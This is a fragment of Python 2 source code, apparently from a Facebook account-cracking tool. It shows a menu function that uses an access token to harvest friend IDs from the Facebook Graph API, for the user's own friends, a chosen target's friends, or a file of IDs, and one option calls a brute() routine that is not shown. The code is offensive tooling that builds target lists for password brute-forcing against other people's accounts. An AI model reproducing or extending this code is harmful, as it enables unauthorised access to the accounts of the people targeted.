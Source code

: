 def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo

		jalan('\033[1;93m[✺] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])

	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[*] Enter ID : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;40m[✺] Name : "+op["name"]
		except KeyError:
			print"\x1b[1;92m[✺] ID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		brute()	
	elif peak =="4":
		os.system('clear')
		print logo                  
		try:
			idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter the file name \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'
			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
